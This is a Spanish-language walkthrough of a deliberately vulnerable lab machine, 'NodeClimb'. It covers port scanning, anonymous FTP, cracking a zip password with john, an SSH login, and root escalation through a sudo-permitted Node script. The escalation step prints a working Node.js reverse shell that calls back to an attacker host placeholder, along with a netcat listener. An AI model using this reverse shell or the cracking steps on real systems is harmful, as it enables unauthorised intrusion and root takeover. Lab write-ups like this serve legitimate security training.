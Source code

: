 - Tags: #NodeClimb #ReverseShellJS
---
[Maquina NodeClimb](https://mega.nz/file/4b1ymaiL#xBg29RY4Qo6U9rJLTtSjgUOX2BWTGd-qSfYEpDEMdQs) ==> Enlace de descarga al laboratorio
```bash
7z x nodeclimb.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh nodeclimb.tar # Desplegamos el laboratorio.
```

#### Fase Reconocimiento:
```bash
172.17.0.2 --> Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para ver si tenemos conectividad con el target.

wichSystem.py 172.17.0.2 # Detectamos que nos estamos enfrentando ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -P 172.17.0.2 -oG allPorts # Realizamos descubrimiento
extractPorts allPorts # Parseamos la informacion mas importante del primer escaneo
nmap -sC -sV -p21,22 172.17.0.2 -oN targeted # Realizmaos un escaneo exhaustivo para determinar el servicio y la version que corrern detras de estos puetos
```

**( ftp-anon: Anonymous FTP login allowed (FTP code 230) )** ==> Para el servicion **FTP** tenemos habilitado al usuario **Anonymous** que contempla este archivo: **( secretitopicaron.zip )**
**( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) )** ==> Tenemos un servicio ssh.

#### Fase Reconocimiento FTP:
```bash
ftp 172.17.0.2 # Logramos conectarnos como el usuario anonymous sin proporcionar password
ls -al # Listamos archivos detecdtando: ( secretitopicaron.zip )
get secretitopicaron.zip # Descargamos este contenido
```

```bash
zip2john secretitopicaron.zip > secretoHash # Convertimos el comprimido a un hast para poder aplicar fuerza bruta con john
john --format=PKZIP secretoHash --wordlist=/usr/share/wordlists/rockyou.txt # Logramos obtener la password: ( password1 )
7z x secretitopicaron.zip --> # Proporcionamos la passsword obtenida
password.txt # Ahora tenemos este archivo con unas credenciales de incio de sesion.
```

```bash
File: password.txt
──────────────────────────────────────
mario:laKontraseñAmasmalotaHdelbarrioH
```


#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh mario@172.17.0.2
```
---

#### Fase Escalada Privilegios:
**( script.js )** ==> Tenemos este archivo que no tiene nada.
```bash
sudo -l # Podemos aprovecharnos para crear una revershell para ganar acceso como root
User mario may run the following commands on e4a404b1c0d5:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Nos aprovechamos de esto para crearnos una reverse shell y elevar privilegios a root
```js
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    
    var client = new net.Socket();
    
    client.connect($PORT, "$IP_ATACANTE", function() {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    
    return /a/;
})();
```
---
```bash
nc -nlvp 443 # Nos podemos en escucha 

sudo -u root /usr/bin/node /home/mario/script.js # Lanzamos para obtener una shell como root.
```